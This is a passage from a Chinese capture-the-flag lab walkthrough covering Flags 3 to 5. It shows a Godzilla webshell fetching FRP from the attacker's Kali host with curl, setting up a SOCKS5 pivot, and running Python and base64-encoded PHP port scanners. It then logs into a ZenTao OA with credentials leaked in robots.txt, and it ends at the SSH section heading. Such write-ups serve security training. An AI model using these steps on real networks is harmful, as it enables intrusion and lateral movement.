

**特别关注：**

```plaintext
+------------------------+
| Flag                   |
+------------------------+
| Flag3{4ZtG6ZX5h3QMZ2B} |
+------------------------+
```

顺手查询一下对应的用户名和密码：



### 5\.3 Flag3

```plaintext
Flag3{4ZtG6ZX5h3QMZ2B}
```

---

## 六、Flag4 —— 一级内网代理与 OA 探测

### 6\.1 搭建一级 FRP 代理

尝试直接上传 `frps` / `frpc` 到 DMZ，发现行不通



\*注：经过我的测试，走普通的upload上传发现有文件大小限制，所以这里我使用 Kali 搭建 HTTP 临时服务器，让DMZ的机器从 Kali 这里下载（当然，如果DMZ服务器可以连接互联网，也可从GitHub进行下载）

#### 6\.1\.1 Kali 搭建 HTTP 临时文件服务器

（1）上传对应的FRP Linux文件至`/home/kali/frp_share`

```bash
#进入当前用户的家目录
cd ~
#创建对应需要分享文件的文件夹
mkdir frp_share
```

（2）通过Mobaxtream手动上传frp相关文件，至此文件夹



可以把文件名字改短一些

```bash
mv frp_0.71.1_linux_amd64.tar.gz frp.tar.gz
```

（3）正式搭建 HTTP 临时服务

```bash
#查看对应目录及文件
pwd
ls
#确保是对应正确的目录
#/home/kali/frp_share
#frp.tar.gz
#输入以下命令进行搭建
python3 -m http.server 9999
```

和下图保持一样，在终端没有输出显示是正常的，不需要按任何按键



（4）哥斯拉终端拉取

命令如下：

```bash
curl -sL -o frp.tar.gz http://192.168.153.130:9999/frp.tar.gz
```

然后进入对应的路径，刷新后即可看到该文件



这时候就可以按下`Ctrl+C`，停止Kali的HTTP文件共享了

#### 6\.1\.2 DMZ 搭建 FRP 一级代理

（1）在哥斯拉终端解压并赋予权限

```bash
# 1. 进入目标目录
cd /var/www/html/uploads/

# 2. 解压 frp 压缩包
tar -zxvf frp.tar.gz

#进入解压出来的文件夹
cd frp_0.71.1_linux_amd64/

# 3. 查看解压出来的文件（你应该能看到 frps, frpc 等文件）
ls -la

# 4. 给这两个文件赋予可执行权限（非常重要，否则无法运行）
chmod +x frps frpc
```

（2）创建并编辑配置文件 \(利用哥斯拉的文件管理\)

为了方便，这里直接用哥斯拉的「文件管理」去双击打开修改

1. 写入 frps\.toml \(服务端\)

```toml
bindPort = 7000
auth.method = "token"
auth.token = "admin123"
```



2. 写入 frpc\.toml \(客户端\)

```toml
serverAddr = "127.0.0.1"
serverPort = 7000
auth.method = "token"
auth.token = "admin123"

[[proxies]]
name = "socks5_dmz"
type = "tcp"
remotePort = 55004

[proxies.plugin]
type = "socks5"
```



3. 启动服务（哥斯拉）

后台静默运行 FRP 的服务端（frps）和客户端（frpc）

```bash
#以下命令建议逐行执行
nohup ./frps -c frps.toml > frps.log **2**>**&1** &
#--- 分割线 ---
nohup ./frpc -c frpc.toml > frpc.log **2**>**&1** &
```

### 6\.2 验证代理

#### 6\.2\.1 验证回显

在 Kali 上执行

```bash
#把以下的IP地址换成你的靶场IP+55004端口号
curl -s --socks5 192.168.153.135:55004 http://172.16.37.17/ | head -5
```

即可看到回显，说明代理搭建成功



#### 6\.2\.2 配置 FireFox 浏览器代理

也可以按照下图的页面，给 Kali 自带 FireFox 浏览器配置代理



配置成功后，输入`http://172.16.37.17/`即可打开该网页



### 6\.3 探测内网 OA

这里我使用的方法是在 Kali 上构建 Python 脚本来进行内网探测

#### 6\.3\.1 创建扫描脚本

将以下的内容粘贴至 Kali 终端

```bash
cat > /tmp/scan.py << 'SCANEOF'
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""经 SOCKS5 代理扫描内网网段（只输出开放端口）"""
import socket, struct, sys, ipaddress
from concurrent.futures import ThreadPoolExecutor

PORTS_DEFAULT = [21, 22, 80, 443, 445, 135, 3306, 3389, 5985, 8080]

def socks_connect(proxy, host, port, timeout=4):
    try:
        s = socket.create_connection(proxy, timeout=timeout)
        s.settimeout(timeout)
        s.sendall(b'\x05\x01\x00')
        if s.recv(2) != b'\x05\x00':
            s.close(); return False
        ip = socket.inet_aton(host)
        s.sendall(b'\x05\x01\x00\x01' + ip + struct.pack('>H', port))
        rep = s.recv(10)
        s.close()
        return len(rep) > 1 and rep[1] == 0
    except Exception:
        return False

def probe(job):
    proxy, ip, port = job
    return (ip, port) if socks_connect(proxy, ip, port) else None

def main():
    proxy_str, cidr = sys.argv[1], sys.argv[2]
    ports = [int(p) for p in sys.argv[3].split(',')] if len(sys.argv) > 3 else PORTS_DEFAULT
    ph, pp = proxy_str.rsplit(':', 1)
    proxy = (ph, int(pp))
    print('=== 经代理扫描（只输出开放端口）===')
    print('代理  : %s:%d' % proxy)
    print('网段  : %s' % cidr)
    print('端口  : %s' % ','.join(map(str, ports)))
    print('-' * 46)
    hosts = [str(h) for h in ipaddress.ip_network(cidr, strict=False).hosts()]
    jobs = [(proxy, ip, p) for ip in hosts for p in ports]
    hits = {}
    with ThreadPoolExecutor(max_workers=200) as ex:
        for r in ex.map(probe, jobs):
            if r: hits.setdefault(r[0], []).append(r[1])
    for ip in sorted(hits, key=lambda x: int(ipaddress.ip_address(x))):
        print('%-16s OPEN: %s' % (ip, ','.join(map(str, sorted(hits[ip])))))
    print('-' * 46)
    print('共发现 %d 台主机有开放端口' % len(hits))

if __name__ == '__main__':
    main()
SCANEOF
chmod +x /tmp/scan.py
```

#### 6\.3\.2 代理扫描

```bash
python3 /tmp/scan.py 192.168.153.135:55004 172.16.37.0/24 22,80,3306
```

回显：



得出结论：`172.16.37.17` 开放 22/80 端口，为内网 OA 服务器

### 6\.4 验证 OA 服务

#### 6\.4\.1 查看回显

在哥斯拉上执行以下命令，查看OA返回结果

```bash
curl -s -I http://172.16.37.17/
```

实际回显如下：



#### 6\.4\.2 脚本验证（可选）

这里我让AI写了一个网段小脚本，可以用于验证扫描对应的网段

直接复制下面这一整段，粘贴到哥斯拉的终端里执行（注释的内容不需要复制）：

```php
echo 'PD9waHAKJGlwID0gIjE3Mi4xNi4zNy4iOwokcG9ydHMgPSBbMjIsIDgwLCAzMzA2LCA4MDgwLCA1NTAwM107CmVjaG8gIuW8gOWni+aJq+aPjy4uLlxuIjsKZm9yICgkaSA9IDE7ICRpIDw9IDI1NDsgJGkrKykgewogICAgJHRhcmdldCA9ICRpcCAuICRpOwogICAgZm9yZWFjaCAoJHBvcnRzIGFzICRwb3J0KSB7CiAgICAgICAgJGNvbm4gPSBAZnNvY2tvcGVuKCR0YXJnZXQsICRwb3J0LCAkZSwgJHMsIDAuMDUpOyAvLyDotoXml7bmlLnmiJAwLjA15q+r56eSCiAgICAgICAgaWYgKCRjb25uKSB7CiAgICAgICAgICAgICRvdXQgPSAiWytdIE9QRU46IHskdGFyZ2V0fToke3BvcnR9XG4iOwogICAgICAgICAgICBlY2hvICRvdXQ7CiAgICAgICAgICAgIGZpbGVfcHV0X2NvbnRlbnRzKCcvdG1wL3NjYW5fcmVzdWx0LnR4dCcsICRvdXQsIEZJTEVfQVBQRU5EKTsKICAgICAgICAgICAgZmNsb3NlKCRjb25uKTsKICAgICAgICB9CiAgICB9Cn0KZWNobyAi5omr5o+P5a6M5oiS77yM57uT5p6c5bey5L+d5a2Y5YiwIC90bXAvc2Nhbl9yZXN1bHQudHh0XG4iOwo/Pg==' | base64 -d > /tmp/netscan.php

#复制到以上的内容即可，下面注释的不需要复制，仅供参考

#以上的base64编码对应的代码内容对应如下：

//<?php
// <?php
// $ip = "172.16.37.";
// $ports = [22, 80, 3306, 8080, 55003];
// echo "开始扫描...\n";
// for ($i = 1; $i <= 254; $i++) {
//     $target = $ip . $i;
//     foreach ($ports as $port) {
//         $conn = @fsockopen($target, $port, $e, $s, 0.05); // 超时或0.05毫秒
//         if ($conn) {
//             $out = "[+] OPEN: {$target}:{$port}\n";
//             echo $out;
//             file_put_contents('/tmp/scan_result.txt', $out, FILE_APPEND);
//             fclose($conn);
//         }
//     }
// }
// echo "扫描完成，结果已保存到 /tmp/scan_result.txt\n";
// ?>
```

文件写到了 `/tmp` 目录下（不放在网站目录了，避免被 Nginx 干扰）执行下面这行命令，让它在后台跑：

```php
php /tmp/netscan.php > /dev/null 2>&1 &
```

稍等 3 秒钟，执行下面的命令查看结果：

```bash
cat /tmp/scan_result.txt
```

实际结果如下：



可以看到，确实是有一台机器的IP为`172.16.37.17`，并且开放了对应端口的服务

### 6\.5 Flag4

```plaintext
Flag4 = 172.16.37.17
```

---

## 七、Flag5 —— OA 漏洞挖掘

### 7\.1 OA 指纹识别

#### 7\.1\.1 识别框架

```bash
#把以下的IP地址换成你的靶场IP+55004端口号
curl -s --socks5 192.168.153.135:55004 http://172.16.37.17/ | head -10
```

正常回显如下：



读出的信息：

- OA 运行 禅道 ZenTaoPMS

- Web 根目录 `/zentao`

#### 7\.1\.2 继续使用脚本扫描 OA 目录

```bash
python3 /tmp/scan.py 192.168.153.135:55004 172.16.37.17 80
```



#### 7\.1\.3 猜测常见路径

在 Kali 使用以下命令，查看常见路径的回显

```bash
for p in robots.txt .git .htaccess sitemap.xml admin api upload; do
  code=$(curl -s -m 8 --socks5 192.168.153.135:55004 -o /dev/null -w '%{http_code}' http://172.16.37.17/zentao/$p)
  [ "$code" != "000" ] && echo "/zentao/$p -> $code"
done
```



重点关注：

```bash
/zentao/robots.txt -> 200
```

#### 7\.1\.4 发现敏感文件 robots\.txt

```bash
curl -s --socks5 192.168.153.135:55004 http://172.16.37.17/zentao/robots.txt
```

**输出**：

```plaintext
Username:admin
Password:admin@123
```

> 用途：登录 ZenTao 后台（注意：这是应用账户，不是 SSH 账户）
> 
> 

### 7\.2 登录 Zentao

#### 7\.2\.1 获取会话 cookie

在 Kali 上执行以下命令，获取cookie，并保存至`/tmp/oa_cj.txt`内

```bash
curl -s --socks5 192.168.153.135:55004 -c /tmp/oa_cj.txt \
  http://172.16.37.17/zentao/index.php?m=user&f=login
```

#### 7\.2\.2 提交登录

```bash
curl -s --socks5 192.168.153.135:55004 \
  -b /tmp/oa_cj.txt -c /tmp/oa_cj.txt \
  -X POST http://172.16.37.17/zentao/user-login.html \
  --data-urlencode "account=admin" \
  --data-urlencode "password=admin@123" \
  --data-urlencode "passwordStrength=2" \
  --data-urlencode "referer=/zentao/"
```

输出内容如下：



读出的信息：`parent.location='/zentao/'` = 登录成功（跳转到首页）

#### 7\.2\.3 验证登录

```bash
curl -s --socks5 192.168.153.135:55004 \
  -b /tmp/oa_cj.txt \
  http://172.16.37.17/zentao/my-index.html | grep -o logout
```



原理：`my-index.html` 是只有登录后才能访问的页面

- 未登录 → 重定向到登录页（无 logout）

- 已登录 → 显示"我的地盘"（有 logout 按钮）

### 7\.3 SSH 登录 OA

#### 7\.3\.1 找到 student 用户

